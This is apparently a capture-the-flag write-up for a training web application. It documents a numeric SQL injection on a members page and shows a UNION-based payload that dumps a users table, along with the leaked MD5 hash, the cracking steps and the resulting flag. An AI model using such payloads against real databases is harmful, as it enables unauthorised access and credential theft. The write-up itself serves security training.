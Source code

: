 # SQL Numeric Injection - Members

## Flag

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Description

Vulnerable SQL.

## URL

http://192.168.x.y/?page=member

## Steps To Reproduce

Using this payload:
`1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users--`

We get, for the last result :

```
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users--
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Using crackstation, we crack the md5 (in the surname field) to get : FortyTwo, lowercase it : fortytwo, then hash it with sha256 to get our flag.

## Why is it dangerous ?

See 10-Gallery-SQLNumericInjection

## Possible fixes

See 10-Gallery-SQLNumericInjection

## Resources

There is no additional resource for this issue.

